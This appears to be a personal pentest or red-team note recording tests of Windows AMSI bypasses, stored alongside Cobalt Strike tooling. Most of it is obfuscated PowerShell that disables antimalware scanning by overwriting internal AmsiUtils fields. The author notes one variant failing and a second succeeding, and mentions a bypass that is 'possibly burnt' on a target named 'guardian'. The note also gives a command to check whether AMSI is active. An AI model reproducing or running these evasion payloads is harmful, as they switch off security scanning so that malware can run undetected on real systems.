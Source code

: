 This `AMSI` still works on my home computer, but in `Guardian` unoficial it did not work - located in `/home/kali/tools/cobaltstrike_30JAN2025/custom-cobalt/Files`
```bash
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
not working in `guardian`
![[Pasted image 20250317134010.png]]
not  working on my local  machine
![[Pasted image 20250317134154.png]]


Command to check if `AMSI` is enabled

- If **AMSI is enabled**, the output will be **`False`**.
- If **AMSI is disabled (bypassed)**, the output will be **`True`**.
```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static').GetValue($null)
```

```bash
#Unknown - Force error 
$j4cQAqWtE5dijQXBhH_w=$null;$UsJaNN=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((7120+1956));$lxdkddz="+('q'+'ê'+'s'+'h'+'z'+'z'+'x'+'z'+'ê'+'q'+'q'+'ì'+'t'+'n'+'p'+'m'+'b'+'î').NoRmaLiZE([CHar]([BYTE]0x46)+[CHAR](21+90)+[ChAr](92+22)+[CHaR]([bYTe]0x6d)+[CHar](59+9)) -replace [CHar]([BytE]0x5c)+[cHaR](39+73)+[cHaR]([BYTE]0x7b)+[cHAR](77*50/50)+[cHar]([BytE]0x6e)+[Char]([bYte]0x7d)";[Threading.Thread]::Sleep(1309);[Ref].Assembly.GetType("System.$([CHaR](77+72-72)+[char]([bYTe]0x61)+[cHaR]([byte]0x6e)+[cHar]([byTE]0x61)+[cHAR](13+90)+[CHaR](101*3/3)+[ChAR]([ByTe]0x6d)+[Char](101)+[chAr]([bYtE]0x6e)+[cHar](35+81)).$(('Ãûtômät'+'íôn').NorMaLiZe([char]([byTe]0x46)+[chaR]([byTE]0x6f)+[chaR](114*67/67)+[ChAr]([byTE]0x6d)+[CHaR]([BYTe]0x44)) -replace [chaR](92*83/83)+[chAr]([ByTE]0x70)+[cHAR]([bYTE]0x7b)+[cHAR](77*47/47)+[char](43+67)+[ChAR](125*82/82)).$(('ÁmsíÛ'+'tíls').nOrmalizE([CHar]([byTe]0x46)+[cHaR]([BYTE]0x6f)+[chAR]([BYte]0x72)+[cHaR](109)+[ChAr](68+37-37)) -replace [chAR](49+43)+[cHAR]([BYTE]0x70)+[ChaR](123)+[CHAR]([BYte]0x4d)+[CHar](110*19/19)+[cHar]([bYte]0x7d))").GetField("$(('âmsîSéssí'+'õn').noRMaliZe([Char]([BYTE]0x46)+[cHAR]([ByTE]0x6f)+[CHaR](107+7)+[chAR](109+61-61)+[chAR]([bytE]0x44)) -replace [Char](92+67-67)+[Char]([byTE]0x70)+[CHar]([BYte]0x7b)+[CHAR]([bYTE]0x4d)+[ChAR]([ByTe]0x6e)+[chaR]([bYte]0x7d))", "NonPublic,Static").SetValue($j4cQAqWtE5dijQXBhH_w, $j4cQAqWtE5dijQXBhH_w);[Ref].Assembly.GetType("System.$([CHaR](77+72-72)+[char]([bYTe]0x61)+[cHaR]([byte]0x6e)+[cHar]([byTE]0x61)+[cHAR](13+90)+[CHaR](101*3/3)+[ChAR]([ByTe]0x6d)+[Char](101)+[chAr]([bYtE]0x6e)+[cHar](35+81)).$(('Ãûtômät'+'íôn').NorMaLiZe([char]([byTe]0x46)+[chaR]([byTE]0x6f)+[chaR](114*67/67)+[ChAr]([byTE]0x6d)+[CHaR]([BYTe]0x44)) -replace [chaR](92*83/83)+[chAr]([ByTE]0x70)+[cHAR]([bYTE]0x7b)+[cHAR](77*47/47)+[char](43+67)+[ChAR](125*82/82)).$(('ÁmsíÛ'+'tíls').nOrmalizE([CHar]([byTe]0x46)+[cHaR]([BYTE]0x6f)+[chAR]([BYte]0x72)+[cHaR](109)+[ChAr](68+37-37)) -replace [chAR](49+43)+[cHAR]([BYTE]0x70)+[ChaR](123)+[CHAR]([BYte]0x4d)+[CHar](110*19/19)+[cHar]([bYte]0x7d))").GetField("$([ChAR](24+73)+[ChAR](34+75)+[ChAR]([bYTE]0x73)+[cHaR](105*68/68)+[chAr](67+13-13)+[cHAR]([byTE]0x6f)+[CHAr]([ByTe]0x6e)+[chAr]([bYte]0x74)+[CHAR]([BYTE]0x65)+[CHaR]([byTe]0x78)+[char]([BytE]0x74))", "NonPublic,Static").SetValue($j4cQAqWtE5dijQXBhH_w, [IntPtr]$UsJaNN);$ajjagfuhrgvf="+('õwbcqlãytgàùqrbîcúwáfw'+'mcbv').noRMalIze([CHAr]([bYte]0x46)+[char](111)+[chAr](96+18)+[chaR](109+60-60)+[CHaR]([bytE]0x44)) -replace [cHAR]([byte]0x5c)+[chAr](80+32)+[ChaR]([bytE]0x7b)+[CHAR]([BYte]0x4d)+[CHAR](110+8-8)+[ChAR](125*107/107)";[Threading.Thread]::Sleep(190)
```
this disabled `amsi`
![[Pasted image 20250317135501.png]]
`trollAMSI` fails now on `guardian` - possibly burnt

![[Pasted image 20250317135714.png]]